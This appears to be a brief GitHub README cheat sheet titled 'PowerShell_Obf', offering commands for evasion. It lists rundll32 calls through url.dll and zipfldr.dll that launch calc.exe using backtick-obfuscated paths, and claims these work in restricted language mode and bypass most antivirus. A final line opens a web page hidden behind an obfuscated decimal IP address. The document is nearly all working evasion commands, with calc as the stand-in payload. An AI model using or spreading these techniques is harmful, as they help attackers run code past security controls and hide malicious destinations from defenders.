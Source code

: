 # PowerShell_Obf

#Calling files in restricted language mode and bypass most AVs

`rundll32 url.dll,FileProtocolHandler file://``C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E`

rundll32.exe zipfldr.dll,RouteTheCall file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

rundll32 url.dll,OpenURL file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

#Call a web page via its decimal value
rundll32 url.dll,OpenURL HTTP://`2`9`1`5`2`2`4`9`3`3
